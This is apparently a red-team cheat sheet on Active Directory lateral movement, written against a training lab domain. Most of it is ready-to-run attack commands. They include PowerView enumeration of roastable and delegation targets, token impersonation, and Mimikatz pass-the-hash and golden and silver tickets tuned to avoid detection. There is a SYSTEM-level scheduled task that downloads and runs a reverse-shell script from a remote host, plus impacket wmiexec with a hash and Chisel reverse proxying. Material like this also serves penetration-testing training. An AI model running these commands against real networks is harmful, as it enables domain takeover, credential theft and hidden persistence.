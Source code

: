 # Lateral Movement Enumeration
### Lateral Movement Enumeration With PowerView

```powershell
# Find existing local admin access for user (noisy 🚩)
Find-LocalAdminAccess

# Find local admin access over PS remoting (also noisy 🚩), requires Find-PSRemotingLocalAdminAccess.ps1
Get-NetComputer -Domain dollarcorp.moneycorp.local > .\targets.txt
Find-PSRemotingLocalAdminAccess -ComputerFile .\targets.txt dcorp-std355

# Same for WMI. Requires 'Find-WMILocalAdminAccess.ps1', which seems to be removed from Nishang?
Find-WMILocalAdminAccess -ComputerFile .\targets.txt
Find-WMILocalAdminAccess # Finds domain computers automatically

# Hunt for sessions of interesting users on machines where you have access (still noisy 🚩)
Invoke-UserHunter -CheckAccess | ?{$_.LocalAdmin -Eq True }

# Look for kerberoastable users
Get-DomainUser -SPN | select name,serviceprincipalname

# Look for AS-REP roastable users
Get-DomainUser -PreauthNotRequired | select name

# Look for users on which we can set UserAccountControl flags
## If available - disable preauth or add SPN (see below)
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

# Look for servers with Unconstrained Delegation enabled
## If available and you have admin privs on this server, get user TGT (see below)
Get-DomainComputer -Unconstrained

# Look for users or computers with Constrained Delegation enabled
## If available and you have user/computer hash, access service machine as DA (see below)
Get-DomainUser -TrustedToAuth | select userprincipalname,msds-allowedtodelegateto
Get-DomainComputer -TrustedToAuth | select name,msds-allowedtodelegateto
```

***

# Lateral Movement Abuse
## ADFS
- Connect legitimately to other services
- [Golden Token ADFS attack](https://www.qomplx.com/golden-ticket-attack-on-adfs/)
***

## Browser Pivoting
***

 ## GPO Abuse

***

### Token Manipulation

Tokens can be impersonated from other users with a session/running processes on the machine. A similar effect can be achieved by using e.g. CobaltStrike to inject into said processes.

#### Incognito

```powershell
# Show tokens on the machine
.\incognito.exe list_tokens -u

# Start new process with token of a specific user
.\incognito.exe execute -c "domain\user" C:\Windows\system32\calc.exe
```

> If you’re using Meterpreter, you can use the built-in Incognito module with `use incognito`, the same commands are available.

#### Invoke-TokenManipulation

```powershell
# Show all tokens on the machine
Invoke-TokenManipulation -ShowAll

# Show only unique, usable tokens on the machine
Invoke-TokenManipulation -Enumerate

# Start new process with token of a specific user
Invoke-TokenManipulation -ImpersonateUser -Username "domain\user"

# Start new process with token of another process
Invoke-TokenManipulation -CreateProcess "C:\Windows\system32\calc.exe" -ProcessId 500
```

### Mimikatz

```plaintext
# Overpass the hash
sekurlsa::pth /user:Administrator /domain:domain.local /ntlm:[NTLMHASH] /run:powershell.exe

# Golden ticket (domain admin, w/ some ticket properties to avoid detection)
kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-[DOMAINSID] /krbtgt:[KRBTGTHASH] /id:500 /groups:513,512,520,518,519 /startoffset:0 /endin:600 /renewmax:10080 /ptt

# Silver ticket for a specific SPN with a compromised service / machine account
kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-[DOMAINSID] /rc4:[MACHINEACCOUNTHASH] /target:dc.domain.local /service:HOST /id:500 /groups:513,512,520,518,519 /startoffset:0 /endin:600 /renewmax:10080 /ptt
```

> A list of available SPNs for silver tickets can be found [here](https://adsecurity.org/?page_id=183). Another nice overview for SPNs relevant for offensive is provided [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#pass-the-ticket-silver-tickets).

### Command execution with schtasks

_Requires ‘Host’ SPN_

To create a task:

```powershell
# Mind the quotes. Use encoded commands if quoting becomes a pain.
schtasks /create /tn "shell" /ru "NT Authority\SYSTEM" /s dcorp-dc.dollarcorp.moneycorp.local /sc weekly /tr "Powershell.exe -c 'IEX (New-Object Net.WebClient).DownloadString(''http://172.16.100.55/Invoke-PowerShellTcpRun.ps1''')'"
```

To trigger it:

```powershell
schtasks /RUN /TN "shell" /s dcorp-dc.dollarcorp.moneycorp.local
```

### Command execution with WMI

_Requires ‘Host’ and ‘RPCSS’ SPNs_

#### From Windows

```powershell
Invoke-WmiMethod win32_process -ComputerName dcorp-dc.dollarcorp.moneycorp.local -name create -argumentlist "powershell.exe -e $encodedCommand"
```

#### From Linux

```bash
# with password
impacket-wmiexec dcorp/student355:password@172.16.4.101

# with hash
impacket-wmiexec dcorp/student355@172.16.4.101 -hashes :92F4AE6DCDAC7CF870B79F1758503D54
```

### Command execution with PowerShell Remoting

_Requires ‘CIFS’, ‘HTTP’ and ‘WSMAN’ SPNs_

> This one is a bit tricky. A combination of the above SPNs may or may not work - also PowerShell may require the exact FQDN to be provided.

```powershell
# Create credential to run as another user (if needed, not needed with PTT)
# Leave out -Credential $Cred in the below commands if not using
$SecPassword = ConvertTo-SecureString 'thePassword' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('CORP\username', $SecPassword)

# Run a command remotely (can be used one-to-many!)
Invoke-Command -Credential $Cred -ComputerName $computer -ScriptBlock {whoami; hostname}

# Launch a session as another user (prompt for password)
Enter-PsSession -Credential $Cred -ComputerName $computer -Credential dcorp\Administrator

# Create a persistent session (will remember variables etc.), load a script into said session, and enter a remote session promptEE
$sess = New-PsSession -Credential $Cred
Invoke-Command -Session $sess -FilePath c:\path\to\file.ps1
Enter-PsSession -Session $sess

# Copy files to or from an active PowerShell remoting session
Copy-Item -Path .\Invoke-Mimikatz.ps1 -ToSession $sess2 -Destination "C:\Users\dbprodadmin\documents\
```

***


### Chisel proxying

Just an example on how to set up a Socks proxy to chisel over a compromised host. There are many more things you can do with Chisel!

On attacker machine (Linux or Windows):

```bash
./chisel server -p 8888 --reverse
```

On target:

```powershell
.\chisel_windows_386.exe client 10.10.16.7:8888 R:8001:127.0.0.1:9001
```

Now we are listening on `localhost:8001` on our attacking machine to forward that traffic to `target:9001`.

Then, open the Socks server. On target:

```powershell
.\chisel_windows_386.exe server -p 9001 --socks5
```

On attacking machine:

```bash
./chisel client localhost:8001 socks
```

A proxy is now open on port 1080 of our attacking machine.